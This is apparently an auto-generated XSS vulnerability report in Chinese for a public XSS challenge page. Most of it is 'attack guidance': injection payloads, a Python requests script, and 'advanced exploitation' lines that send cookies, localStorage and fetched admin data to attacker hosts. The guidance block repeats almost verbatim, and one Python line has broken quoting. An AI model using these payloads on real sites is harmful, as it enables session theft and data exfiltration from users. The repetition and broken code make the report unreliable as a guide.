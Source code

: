 #### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   <svg onload=alert(document.domain)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '<svg onload=alert(document.domain)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: critical
- 验证载荷: <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '<img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```
